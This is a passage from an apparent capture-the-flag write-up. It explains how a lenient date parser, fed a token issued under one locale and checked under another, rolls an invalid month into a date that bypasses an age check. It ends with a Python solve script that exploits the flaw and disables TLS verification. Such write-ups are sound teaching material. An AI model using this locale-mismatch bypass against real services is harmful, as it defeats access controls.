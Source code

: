 Ordinarily, a month value of `29` is invalid. However, because the resolver is **lenient**, it "rolls over" the excess months. It calculates `29` months as **2 years and 5 months**. It then adds this to the base date, resulting in a final parsed date of **May 25, 0010 AD**.

This  date easily passed the age check, and the server returned the flag.

### Part 4: The Final Script


This final script removes the bruteforcing part and claims the flag.
```python
import requests
import sys
import json

# Disable warnings for unverified HTTPS requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def solve_challenge(host, port):
    base_url = f"https://{host}"
    token_url = f"{base_url}/tokens"
    product_url = f"{base_url}/products/3"

    print(f"[*] Target: {base_url}")

    with requests.Session() as session:
        # --- Step 1: Obtain a token with 'en-US' locale (M/d/yy format) ---
        print("[*] Step 1: Requesting a token with 'Accept-Language: en-US'...")
        token_headers = {'Accept-Language': 'en-US'}
        response = session.post(token_url, headers=token_headers, timeout=10, verify=False)
        response.raise_for_status()
        verification_token = response.json().get('token')
        print(f"[+] Successfully retrieved token.")

        # --- Step 2: Claim the flag with 'ja-JP' locale (expects y/M/d format) ---
        print("\n[*] Step 2: Claiming the flag with the token and 'Accept-Language: ja-JP'...")
        claim_headers = {
            'Content-Type': 'application/json',
            'Accept-Language': 'ja-JP'
        }
        claim_body = {'token': verification_token}
        response = session.post(product_url, headers=claim_headers, json=claim_body, timeout=10, verify=False)
        response.raise_for_status()
        flag = response.json().get('content')

        print("\n" + "="*40)
        print(f"  [SUCCESS] Flag retrieved!")
        print(f"  {flag}")
        print("="*40)

if __name__ == "__main__":
    solve_challenge("2848d092-2713-4d86-8665-7423ee31d19d.chall.nnsc.tf", "443")
```
